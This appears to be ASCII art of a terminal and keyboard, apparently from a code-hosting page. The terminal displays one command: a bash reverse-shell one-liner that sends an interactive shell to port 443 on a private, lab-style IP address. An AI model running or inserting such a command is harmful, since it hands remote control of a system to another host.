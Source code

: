 
*************************************************************************
*$ bash -i >& /dev/tcp/10.10.9.1/443 0>&1                               *
*                                                                       *
*                                                                       *
*                                                                       *
*                                                                       *
*                                                                       *
*                                                                       *   
*                                                                       *
*                                                                       *
*************************************************************************
  ~ 1 2 3 4 5 6 7 8 9 0 - = BCKSP INS HOME PGUP               -------
  TAB q w e r t y u i o p { } |   DEL END  PGDN               |  |  |
  CAPS  a s d f g h j k l : "  ENTER                          |     |
  SHIFT  z x c v b n m , . /  SHIFT       ||                  |_____|
  CTRL WIN ALT S_P_A_C_E ALT FN WIN CTRL<-   ->
